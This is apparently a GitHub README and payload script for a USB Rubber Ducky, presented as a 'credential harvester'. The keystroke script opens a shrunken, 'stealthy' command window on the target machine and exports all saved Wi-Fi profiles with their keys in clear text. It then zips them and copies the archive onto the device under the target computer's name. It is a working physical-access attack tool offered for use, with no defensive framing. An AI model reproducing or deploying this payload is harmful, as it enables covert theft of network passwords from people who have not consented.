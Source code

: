 # Ducky-Credential-Harvester
Short credential harvester for the USB-Rubber-Ducky (Hak5). Requires the Twin-Duck Firmare flashed on it.
TwinDuck: is a Firmware to be flashed on the Ducky via Arduino IDE, wich enables HID and Flashdrive regisstration on the Ducky

--> Enables credential saving on the Ducky itsself

Source: https://github.com/hak5darren/USB-Rubber-Ducky

Guide to Flash TwinDuck: https://www.youtube.com/watch?v=jemPgO_eNeg

REM: these lines arent going to be processed

DELAY 2000

GUI d

REM --> delay for 2 seconds to get the drivers on the target machine running. Closes all Tabs (GUI=WindowsKey)

DELAY 150

GUI r

DELAY 400

STRING cmd

ENTER

DELAY 500

STRING color FE & mode con:cols=18 lines=1

ENTER

REM -->(optional) stealthy...

STRING mkdir A

ENTER

STRING cd A

ENTER

REM --> Sets up the credentials Directory "A" on the Desktop - navigates into it 

STRING netsh wlan export profile key=clear

ENTER

DELAY 200

STRING cd ..

ENTER

REM --> exports all Saved wlan profiles to "A" and navigates back (!!requiers administrative privileges!!)

STRING powershell

ENTER

STRING Compress-Archive -Path A -DestinationPath A.zip

ENTER

STRING copy A.zip D:\%computername%-wifi-passwords.zip

ENTER

GUI d

REM --> Compresses .xml files into .zip via powershell and copys the credentials to the Duckys directory with the targets name in it. Minimizes all tabs.

REM --> Execution time: arround 3-5 seconds. Delays commonly need to be longer the older your target machine is.
